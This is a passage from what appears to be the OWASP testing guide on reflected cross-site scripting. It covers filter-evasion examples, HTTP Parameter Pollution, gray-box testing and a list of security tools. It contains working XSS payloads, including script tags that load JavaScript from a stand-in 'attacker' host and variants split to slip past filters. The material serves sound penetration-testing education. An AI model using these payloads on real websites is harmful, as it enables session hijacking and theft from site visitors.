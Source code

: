 `<script src="http://attacker/xss.js"></script>`

which is a common attack. But, in this case, it is possible to bypass the sanitization by using the “&gt;” character in an attribute between script and src, like this:

`http://example/?var=<SCRIPT%20a=">"%20SRC="http://attacker/xss.js"></SCRIPT>`

This will exploit the reflected cross site scripting vulnerability shown before, executing the javascript code stored on the attacker's web server as if it was originating from the victim web site, `http://example/`.

#### Example 7: HTTP Parameter Pollution (HPP)

Another method to bypass filters is the HTTP Parameter Pollution, this technique was first presented by Stefano di Paola and Luca Carettoni in 2009 at the OWASP Poland conference. See the [Testing for HTTP Parameter pollution](4.8.4_Testing_for_HTTP_Parameter_Pollution_WSTG-INPVAL-004.md) for more information. This evasion technique consists of splitting an attack vector between multiple parameters that have the same name. The manipulation of the value of each parameter depends on how each web technology is parsing these parameters, so this type of evasion is not always possible. If the tested environment concatenates the values of all parameters with the same name, then an attacker could use this technique in order to bypass pattern- based security mechanisms.
Regular attack:

`http://example/page.php?param=<script>[...]</script>`

Attack using HPP:

`http://example/page.php?param=<script&param=>[...]</&param=script>`

> See the [XSS Filter Evasion Cheat Sheet](https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet) for a more detailed list of filter evasion techniques. Finally, analyzing answers can get complex. A simple way to do this is to use code that pops up a dialog, as in our example. This typically indicates that an attacker could execute arbitrary JavaScript of his choice in the visitors' browsers.

### Gray-Box Testing

Gray-box testing is similar to black-box testing. In gray-box testing, the pen-tester has partial knowledge of the application. In this case, information regarding user input, input validation controls, and how the user input is rendered back to the user might be known by the pen-tester.

If source code is available (white-box testing), all variables received from users should be analyzed. Moreover the tester should analyze any sanitization procedures implemented to decide if these can be circumvented.

## Tools

- [OWASP CAL9000](https://www.owasp.org/index.php/OWASP_CAL9000_Project)
    CAL9000 is a collection of web application security testing tools that complement the feature set of current web proxies and automated scanners.
- [PHP Charset Encoder(PCE)](https://cybersecurity.wtf/encoder/)
    This tool helps you encode arbitrary texts to and from 65 kinds of charsets. Also some encoding functions featured by JavaScript are provided.
- [HackVertor](https://hackvertor.co.uk/public)
    It provides multiple dozens of flexible encoding for advanced string manipulation attacks.
- [XSS-Proxy](http://xss-proxy.sourceforge.net)
    XSS-Proxy is an advanced Cross-Site-Scripting (XSS) attack tool.
- [ratproxy](https://code.google.com/archive/p/ratproxy/)
    A semi-automated, largely passive web application security audit tool, optimized for an accurate and sensitive detection, and automatic annotation, of potential problems and security-relevant design patterns based on the observation of existing, user-initiated traffic in complex web 2.0 environments.
- [Burp Proxy](https://portswigger.net/burp)
    Burp Proxy is an interactive HTTP/S proxy server for attacking and testing web applications.
- [OWASP Zed Attack Proxy (ZAP)](https://www.owasp.org/index.php/OWASP_Zed_Attack_Proxy_Project)